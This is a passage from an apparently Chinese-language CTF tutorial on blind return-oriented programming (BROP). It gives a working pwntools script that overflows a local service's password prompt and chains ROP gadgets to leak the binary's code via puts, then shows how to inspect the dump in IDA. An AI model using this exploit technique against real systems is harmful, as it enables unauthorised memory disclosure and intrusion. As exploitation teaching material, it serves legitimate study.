 ```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
        if data == "":
            data = '\x00'
        return data
    except Exception:
        sh.close()
        return None


##length = getbufferflow_length()
length = 72
##stop_gadget = get_stop_addr(length)
stop_gadget = 0x4006b6
##brop_gadget = find_brop_gadget(length,stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = brop_gadget + 9
##puts_plt = get_puts_plt(length, rdi_ret, stop_gadget)
puts_plt = 0x400560
addr = 0x400000
result = ""
while addr < 0x401000:
    print hex(addr)
    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)
    if data is None:
        continue
    else:
        result += data
    addr += len(data)
with open('code', 'wb') as f:
    f.write(result)
```

最后，我们将泄露的内容写到文件里。需要注意的是如果泄露出来的是“”,那说明我们遇到了'\x00'，因为puts是输出字符串，字符串是以'\x00'为终止符的。之后利用ida打开binary模式，首先在edit->segments->rebase program 将程序的基地址改为0x400000，然后找到偏移0x560处，如下

```asm
seg000:0000000000400560                 db 0FFh
seg000:0000000000400561                 db  25h ; %
seg000:0000000000400562                 db 0B2h ;
seg000:0000000000400563                 db  0Ah
seg000:0000000000400564                 db  20h
seg000:0000000000400565                 db    0
```
